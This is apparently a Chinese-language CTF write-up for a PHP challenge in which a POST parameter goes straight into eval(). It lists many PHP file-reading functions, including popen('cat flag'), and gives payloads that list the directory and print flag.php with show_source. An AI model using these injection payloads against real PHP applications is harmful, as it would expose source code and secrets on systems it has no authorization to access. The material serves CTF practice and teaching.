

# 知识点
读取文件函数的用法
```php
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
```
# 思路
源码
```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
payload
```php
system('ls')被禁了可以用print_r(scandir('.'));来扫目录
c=show_source('flag.php');
```



